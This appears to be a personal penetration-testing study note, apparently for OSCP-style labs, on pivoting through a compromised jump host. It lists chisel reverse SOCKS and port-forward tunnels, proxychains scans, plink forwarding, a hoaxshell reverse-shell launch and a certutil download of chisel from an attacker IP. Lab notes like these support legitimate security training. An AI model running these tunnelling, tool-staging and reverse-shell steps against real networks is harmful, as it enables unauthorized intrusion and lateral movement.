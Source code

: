 ### 24082023Thu

[A Powerful Pivoting Technique That the OSCP Doesn&#39;t Teach You - YouTube](https://youtu.be/dIqoULXmhXg)

https://www.youtube.com/@elevatecyber5031

https://www.kali.org/tools/chisel/

https://github.com/jpillora/chisel

```
ln -s /usr/local/bin/chisel chisel
```

```
chisel -h
```

```
nmap -Pn -n -p 88 192.168.237.103
```

 (Domain Controller IP)
 ![[Pasted image 20230824225909.png]]
 
```
88/tcp filtered kerberos-sec
```

```
chisel server -p 8000 --reverse
```

```
chisel client 192.168.237.102:8000 R:socks
```

```
sudo vim /etc/proxychains4.conf
```

![[Pasted image 20230824231727.png]]
![[Pasted image 20230824231843.png]]
#socks4

```
socks 127.0.0.1 1080
```

```
proxychains nmap -sT -p 88 -Pn -n 192.168.237.103
```

```
proxychains crackmapexec smb 192.168.237.103 -u 'guest' -p ''
```

```
https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64
```

```
scp nmap username@ip:/tmp
```

```
scp chisel username@ip:/tmp
```

**In the attacker (kali) machine**

```
chisel server --socks5 --reverse
```

```
chisel server --socks5 --reverse
2023/09/15 22:05:53 server: Reverse tunnelling enabled
2023/09/15 22:05:53 server: Fingerprint wq+g4n5Ac8sFp9t9GwOLu7U6arED88bF2jfhH4IxV70=
2023/09/15 22:05:53 server: Listening on http://0.0.0.0:8080
```

**In the compromised pivot (jump host) machine**

```
./chisel client --fingerprint wq+g4n5Ac8sFp9t9GwOLu7U6arED88bF2jfhH4IxV70= [attacker's machine IP]:8080 R:8000:[other's machine IP]:80
```

```
./chisel client --fingerprint wq+g4n5Ac8sFp9t9GwOLu7U6arED88bF2jfhH4IxV70= kaliIP:8080 0.0.0.0:9999:kaliIP:9999
```

**In the kali's web browser**

http://localhost:8000

```
proxychains curl http://other's machine IP
```

```
proxychains xfreerdp /v:ip /u:Administrator
```

```
python hoaxshell.py -s other's machine IP -p 9999
```

```
powershell -e
```

```
plink.exe -ssh -L <local_port>:<destination_host>:<destination_port> <username>@<ssh_server>
```

```
plink.exe -ssh -L 8080:localhost:80 user@ssh_server
```

```
certutil -urlcache -f http://10.10.14.33/chisel_1.9.1_windows_386 chisel
```

```
chisel server -p 12312 --reverse
```

```
.\chisel.exe client 10.10.14.33:12312 R:445:127.0.0.1:445
```

![](Pasted%20image%2020230925171742.png)

![](Pasted%20image%2020230925171812.png)

```
ss -tulwn
```

